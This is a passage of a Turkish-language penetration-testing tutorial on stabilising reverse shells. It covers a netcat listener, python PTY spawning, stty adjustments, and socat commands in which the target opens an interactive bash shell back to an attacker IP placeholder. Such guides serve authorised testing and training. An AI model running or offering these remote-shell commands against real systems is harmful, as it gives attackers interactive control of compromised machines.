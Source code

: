 ### Tam Yükseltme Akışı (Özet)

1.  **Saldırgan:** `rlwrap nc -lvnp <PORT>` (veya tavsiye edilen `rlwrap` komutu)
2.  **Hedef:** (Ters bağlantı komutu çalıştırılır)
3.  **Hedef (Dumb Shell içinde):**
    ```bash
    python3 -c 'import pty; pty.spawn("/bin/bash")'  # Veya python, script vb.
    ```
4.  **Saldırgan (nc'nin çalıştığı terminalde):**
    *   `Ctrl+Z`
    *   `stty raw -echo; fg` (Enter'a basın, gerekirse tekrar Enter)
5.  **Hedef (Artık daha iyi olan PTY shell'de):**
    *   (İsteğe bağlı) `reset` (ve sorarsa `xterm` yazın)
    *   `export SHELL=bash`
    *   `export TERM=xterm-256color` (veya kendi terminalinize uygun bir değer)
    *   (Yeni bir yerel terminalde `stty size` ile boyutları öğrenin)
    *   `stty rows <satır_sayısı> cols <sütun_sayısı>`

Artık `Tab` ile tamamlama (bash/zsh'de), `Ctrl+C`, `Ctrl+L`, ok tuşları, `vim`/`nano` gibi araçlar çalışmalıdır!

---

## 4. İleri Düzey Teknikler ve İpuçları

### `socat` ile Tamamen İnteraktif Shell'ler

Eğer hem saldırgan hem de hedef makinede `socat` varsa, çok daha stabil ve doğrudan interaktif shell'ler elde edebilirsiniz. Bu yöntem genellikle PTY spawn + `stty` ayarlarını tek adımda halleder.

**Saldırgan (Dinleyici):**
```bash
socat file:`tty`,raw,echo=0 tcp-listen:<SOCAT_PORT>
```
*   `file:\`tty\``: Kendi terminalinizi (`tty`) `socat` için dosya olarak kullanır.
*   `raw,echo=0`: `stty raw -echo` ile aynı işlevi görür.

**Hedef (Bağlantı Kuran - mevcut shell içinden çalıştırılır):**
```bash
# Hedefte socat varsa
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<SALDIRGAN_IP>:<SOCAT_PORT>
# veya daha basit bir varyant:
# socat tcp:<SALDIRGAN_IP>:<SOCAT_PORT> exec:'bash -li',pty,stderr
```
*   `exec:'bash -li'`: İnteraktif (`-i`) ve login shell (`-l`) olarak `bash` çalıştırır.
*   `pty`: Bir pseudo-terminal ayırır.
*   `stderr`: Standart hatayı da yönlendirir.
*   `setsid`: Yeni bir oturumda çalıştırır.
*   `sigint`: `Ctrl+C` gibi sinyalleri PTY'ye iletir.
*   `sane`: Terminali "sağlıklı" (sane) ayarlara getirir.

Bu yöntemle, genellikle `rlwrap`'a bile gerek kalmaz, ancak isterseniz `socat` dinleyicinizi de `rlwrap` ile sarmalayabilirsiniz.

